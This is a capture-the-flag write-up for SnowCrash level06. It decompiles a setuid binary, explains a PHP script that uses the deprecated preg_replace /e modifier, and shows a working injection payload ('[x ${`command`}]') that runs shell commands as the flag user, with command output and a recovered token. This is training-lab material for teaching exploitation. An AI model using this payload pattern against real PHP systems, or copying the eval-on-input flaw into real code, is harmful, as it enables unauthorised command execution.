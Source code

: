# level06
_The ritual_ :
- `pwd`: `/home/user/level06`
- `id`: `uid=2006(level06) gid=2006(level06) groups=2006(level06),100(users)`
- `ls -la`:
```sh
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```
- `find / -user flag04 2> /dev/null`: nothing

## _A BINARY FILE, LET'S RUN IT NOW_
```sh
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$
```

- As we can see, there is 2 file : a binary file write in `C`, we know that cause we can see the file execute functions in the `GLIBC_2.0` (it's more visible with the command `strings`). And the second file is `php` script.

_Before start understanding the `php` script, I REALLY want to decompile the binary. Let's transfer the file and laucnh `ghidra`._
```sh
➜  ~ scp -P 4242 level06@127.0.0.1:/home/user/level06/level06 /Users/mayoub/Desktop
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::a925:a9be:251b:ed3f fec0::5054:ff:fe12:3456
level06@127.0.0.1's password:
level06                                                                                                                                                                   100% 7503   383.2KB/s   00:00
➜  ~
```

- And here's the decompiled file :

![decompiled_binary](../../assets/level06/decompiled_binary.png)

- Hum, this program do useless things (_**NORMINETTE IS TRIGGERED**_), but the condition `if (*(int *)(iVar1 + x) != 0)` is a way to check `argv`.
`iVar1` is a pointer to the `argv` tab, and every elements of the tab are spaced 4 bytes apart : it check if `argv[1]` isn't `NULL`.
- For the rest, the program executes only the `php` script with the arguments we passed to.

## Let's move on the `php` script
- There's **0 (ZERO)** indentations in this file so let's clean it :
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}

function x($y, $z) {
	$a = file_get_contents($y);

	$a = preg_replace(
		"/(\[x (.*)\])/e",
		"y(\"\\2\")",
		$a
	);

	$a = preg_replace(
		"/\[/",
		"(",
		$a
	);

	$a = preg_replace(
		"/\]/",
		")",
		$a
	);

	return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

- **Firstly**, the script use `regex` : it's a powerful tool for manipulate strings according to specific patterns (it's awful).

- `function y($m)` : it replace all dots `.` by the strings `" x "` (`space` - `x` - `space`) and all at `@` by the string `" y"` (`space` - `y`) of the parameter `m`.

- `function x($y, $z)` :
1) The value of `a` becomes the contents of the file.
2) The pattern `(\[x (.*)\])` say "All string becomming by `[x ` followed by everything `(.*)` will be replaced by the result of the function `y` with `\\2` as argument"
3) `\\2` corresponds to the second capture group. The first is `(\[x (.*)\])` (first parentheses), the second is `(.*)` (second parentheses). The function `y` take as arguments `(.*)`, everythings between `[x ` and `]`.
4) The function `y` take `(.*)` as argument and replace all `.` by `" x "` and all `@` by `" y"` in the string who are represented by `(.*)` (with other words : <u>everythings</u>).
5) `a` take the return value of the function `preg_replace` with the parameters we have seen previously by taking `a` itself as third parameter, the string that will be processed.
6) `a` take the return of the same function but replacing all `[` by `(`.
7) Same but all `]` are repblaced by `)`, and finally `a` is returned.

**And the rest of the script :**
-  `r` take the return value of `x($argv[1], $argv[2])` : <u>`argv[1]` and `argv[2]` are the arguments we passed to the C program</u>.
-  `r` is printed.

## What we can notice
- The modifier `/e` at the end of this pattern `/(\[x (.*)\])/e`. This modifier is deprecated, means that whatever is parsed is transformed into `php` code.

- The parameter `z` in the prototype of the function `x` is useless.

_Let's test all this mess..._
```sh
level06@SnowCrash:~$ echo '[x ls -la]' > /tmp/flag
level06@SnowCrash:~$ ./level06 /tmp/flag
ls -la
level06@SnowCrash:~$
```
_It doesn't works..._

## Why it doesn't works ?

- The `php` allows to execute shells commands if a group is surrounded by 2 backticks `` ` `` (the `execution operator`) and scopes `{}` ([Complex (curly) synthax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex)).

_Let's try again !_
```sh
level06@SnowCrash:~$ echo '[x ${`ls -la`}]' > /tmp/flag
level06@SnowCrash:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```
_The script crashed, but we can see the output of the command..._
The output here is taked as a variable, but this variable is not define in the code.

[This site](https://regex101.com/) is very useful for testing `regex` patterns and see what they take in a string, it helped a lot for understand how `regex` works :

![regex](../../assets/level06/regex.png)

**We can conclude we can passed a command to executing thanks to `(.*)` if the first argument is a string starts with `[x ` and ends with `]` because it will be treated as `php` code. If these conditions are checked, we can execute a `shell` command.**

_Go checked all thes conditions._
```sh
level06@SnowCrash:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$
```

# FINALLY
**_This level was VERY AWFUL I HATE `PHP` AND `REGEX`_**

- Let's login to `level06` directly :
```sh
level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$
```
# level06 complet !
![yeah](../../assets/yeah.gif)